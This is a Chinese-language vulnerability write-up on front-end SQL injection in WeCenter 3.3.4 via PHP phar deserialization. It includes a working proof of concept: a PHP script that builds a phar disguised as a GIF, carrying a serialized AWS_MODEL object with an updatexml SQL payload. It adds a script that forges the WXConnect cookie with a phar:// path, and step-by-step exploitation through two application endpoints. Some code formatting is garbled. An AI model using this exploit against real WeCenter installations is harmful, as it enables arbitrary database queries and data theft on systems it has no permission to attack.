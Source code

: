 ```yaml
---
title: WeCenter 3.3.4 前台sql注入
id: zhfly3235
---
```


# WeCenter 3.3.4 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 任意sql语句执行

**system/aws_model.inc.php:__destruct()** 方法中存在任意 **SQL** 语句执行。

![image](../img/44c98e0ec48dd6423b74b3a031f17bfb.png)

### poc

```
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

```
public function __construct($_shutdown_query)
{
    $this-&gt;_shutdown_query = $_shutdown_query;
} 
```

} `$sql = array(‘select updatexml(1,concat(0x3a,md5(233),0x3a),1)’);

$evilobj = new AWS_MODEL($sql);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering();

?>` 
```

### 利用

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。

![image](../img/4e577ace85ddce02964440713bbf8063.png)

记录下上传后的目录

![image](../img/91ac0f294b0332cad9ab5b2d25198f47.png)

#### 生成并设置`COOKIE`中的`WXConnect`值

```
<?php
    $arr = array();
    $arr['access_token'] = array('openid' => '1');
    $arr['access_user'] = array();
    $arr['access_user']['openid'] = 1;
    $arr['access_user']['nickname'] = 'naiquan';
    $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
    echo json_encode($arr);
?> 
```

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`

![image](../img/78afbe781a029132f66ea18a2842bcf5.png)

提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`

![image](../img/74ca05495b28796f67a0cb57d47e9d42.png)

任意SQL语句执行成功
